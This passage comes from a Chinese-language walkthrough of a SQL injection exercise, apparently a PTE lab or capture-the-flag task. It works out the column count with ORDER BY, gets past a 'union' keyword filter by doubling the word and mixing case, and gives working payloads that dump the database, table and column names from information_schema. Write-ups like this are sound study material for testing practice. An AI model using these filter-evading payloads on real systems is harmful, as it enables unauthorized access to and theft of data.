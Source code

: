那么我们接上提示，order by猜测有多少个字段

![image-20221226171018178](F:/Typora_pic/pte/image-20221226171018178.png)

一直猜测到8是没报错的

![image-20221226171121191](F:/Typora_pic/pte/image-20221226171121191.png)

9的时候就报错了，我这里为了截图演示把base64加密过后的注入转换了回来

那么我们现在知道一共有八个字段，那么有几个字段是显示出来了的，可以用联合查询试一下

![image-20221226171300626](F:/Typora_pic/pte/image-20221226171300626.png)

报错了，可能是过滤了联合查询，用错误的语法尝试了一下之后，可以知道这里过滤了union

![image-20221226171446651](F:/Typora_pic/pte/image-20221226171446651.png)

这里本应该报错的，没有报错就证明union被过滤了

那么们双写，加上大小写过一下（这里select可以不用大小写）

```
3'%")ununionion SeLeCt 1,2,3,4,5,6,7,8 -- -
```

![image-20221226171620940](F:/Typora_pic/pte/image-20221226171620940.png)

出来了就很简单了，依次把库名、表名、字段名注入出来就可以了

```
3'%")ununionion SeLeCt 1,database(),3,4,5,6,7,8 -- -
```

![image-20221226171729167](F:/Typora_pic/pte/image-20221226171729167.png)

uinfo

```
3'%")ununionion SeLeCt 1,database(),(select group_concat(table_name) from information_schema.tables where table_schema=database()),4,5,6,7,8 -- -
```

![image-20221226171808652](F:/Typora_pic/pte/image-20221226171808652.png)

article

```
id=3'%")ununionion SeLeCt 1,database(),(select group_concat(column_name) from information_schema.columns where table_schema=database() anandd table_name='article'),4,5,6,7,8 -- -
```

![image-20221226171846584](F:/Typora_pic/pte/image-20221226171846584.png)

author,content,id,key,nid,oid,tid,title

最后这里就很简单了，把key注入出来就好了，正当我这么想的时候，啪一下打脸就来了

![image-20221226172019434](F:/Typora_pic/pte/image-20221226172019434.png)
